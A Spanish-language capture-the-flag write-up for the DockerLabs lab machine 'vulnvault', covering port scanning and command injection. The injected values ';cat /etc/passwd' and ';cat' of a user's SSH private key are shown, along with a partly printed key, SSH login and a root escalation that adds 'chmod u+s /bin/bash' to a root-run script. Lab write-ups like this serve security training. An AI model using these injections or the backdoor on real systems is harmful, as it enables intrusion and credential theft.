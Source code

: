 # vulnvault

Maquina `vulnvault` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil

![docker](./images/vulnvault/imagenes/docker.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 25 18:16:59 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Generador de Reportes - Centro de Operaciones
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 25 18:17:10 2024 -- 1 IP address (1 host up) scanned in 10.59 seconds

```

Lo único que se puede ver es que esta el puerto 80 de `apache` y 22 de `openssh`, pero como no hay nada interesante continuaremos con el navegador:

#### PUERTO 80:

![80](./images/vulnvault/imagenes/80.png)

Como vemos parece ser una página de reportes, también podemos subir archivos, pero nada de eso nos sirve ya que luego de probar un rato descubrí esto:

![comando](./images/vulnvault/imagenes/comando.png)

![output](./images/vulnvault/imagenes/output.png)

Como vemos, podemos ejecutar comandos de manera remota, por lo que ahora leeremos el archivo `/etc/passwd` para ver que usuarios existen en la máquina, para hacerlo simplemente ejecutamos:

```css
;cat /etc/passwd
```

```css
Reporte: reporte_1724620988.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724620988.txt
Nombre: \
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
samara:x:1001:1001:samara,,,:/home/samara:/bin/bash
```

Como podemos ver hay un usuario `samara`, sabiendo esto podriamos intentar leer la clave privada de ssh del usuario `samara` de la siguiente manera:

```css
;cat /home/samara/.ssh/id_rsa
```

```css
Reporte: reporte_1724621080.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724621080.txt
Nombre: \
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9HEXYsEOUt5PUH/2fHI/buNxluV3x2qL6wATg0scjIeog9LSmW3k
K3NLw5yDON2vEfZxRSuEkUd743i2AZq/gekNEpvuUTnruRTibz/hZojm8CBpjgXccJW63a
ksBBS/G8iqTa4i9l9GFF0ytuGJ5CmAQy37dgNfsP015OrlN8jg56rtbUyR9kfscYU8R/B0
GDUo60Ek9kzv6QXzkVf/lmnKlVO/4ioJ5iEyL1z91NxBHsOWNQBCjry3kOYDynRD5mKj/g
2OZ/TWpTh/QylyKFfDQYPrbjXXWEe8nnzmoDolKtWvez0Sjig7TBV0z2swcvIuWoxwNFVL
0j/FnwkwYihlbLWi9Gu6ZeddY2+5RfZPRSZrd0+yOvUqHtZHBMBM5nMVyHoh78QyW8bA/q
K93VoLNrf8o19YyZoeNqVP03PE/sSE953JahsHr2iPyNb3q/Hgm+1mn5zL8e++oThK/s43
GeaCpew8JbRf1mD6lkfNZEhAQ2TXvtKRwvWmLxSYmExqgzXD7/XP/ZLUKNO+hQByu+l+VG
......................................................................
-----END OPENSSH PRIVATE KEY-----
```

## INTRUSION

Ahora simplemente lo copiamos y lo metemos en un archivo llamado `id_rsa` en nuestra maquina local. Luego le damos permisos de ejecución con `chmod 600 id_rsa` y nos conectamos mediante ssh de la siguiente manera:

```css
ssh -i id_rsa samara@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

#### SAMARA

Siendo el usuario samara vemos un mensaje de root que no contiene nada interesante, luego de buscar un rato se me ocurre usar `pspy` para ver si hay algún proceso oculto, para eso simplemente hacemos un wget desde la maquina victima a [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64), le damos permiso con `chmod +x pspy64` y lo ejecutamos con `./pspy64`.

```css

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/08/25 23:31:32 CMD: UID=0     PID=626428 | /bin/bash /usr/local/bin/echo.sh 
2024/08/25 23:31:32 CMD: UID=1001  PID=625471 | ./pspy64 
2024/08/25 23:31:32 CMD: UID=1001  PID=463266 | -bash 
2024/08/25 23:31:32 CMD: UID=1001  PID=463232 | sshd: samara@pts/0 
2024/08/25 23:31:32 CMD: UID=0     PID=462917 | sshd: samara [priv] 
2024/08/25 23:31:32 CMD: UID=33    PID=134146 | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=42     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=41     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=40     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=39     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=38     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=0     PID=33     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=0     PID=15     | sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups 
2024/08/25 23:31:32 CMD: UID=0     PID=1      | /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done 
2024/08/25 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Como vemos hay un script que se ejecuta con bash:

```css
2024/08/25 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Ahora simplemente lo editamos con nano y agregamos la siguiente linea al final:

```css
chmod u+s /bin/bash
```

lo guardamos con `ctrl+o` presionamos enter y `ctrl+x` y listo, ahora simplemente ejecutamos `bash -p` y listo, _ya somos root_.

![root](./images/vulnvault/imagenes/root.png)

Gracias por leer, chau.
